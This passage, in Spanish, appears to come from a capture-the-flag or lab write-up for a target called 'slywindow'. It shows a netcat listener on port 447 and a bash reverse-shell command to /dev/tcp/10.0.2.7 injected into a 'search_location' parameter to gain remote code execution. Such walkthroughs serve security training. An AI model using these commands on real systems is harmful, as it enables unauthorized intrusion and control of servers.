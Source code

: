 ![RCE](../../../assets/images/slywindow/20250801_042548_image.png)

En la máquina atacante, abrimos un listener con netcat en el puerto 447 a la espera de la conexión inversa.

```bash
nc -lvnp 447
```

Generamos una reverse shell con la IP de nuestra máquina atacante, la codificamos en URL y la inyectamos en el parámetro `search_location`, utilizando la sintaxis adecuada para lograr la ejecución remota de comandos.

```bash
bash -c 'bash -i >& /dev/tcp/10.0.2.7/447 0>&1'
```

Obtenemos acceso a una shell interactiva en el servidor objetivo.

![](../../../assets/images/slywindow/20250801_043020_image.png)
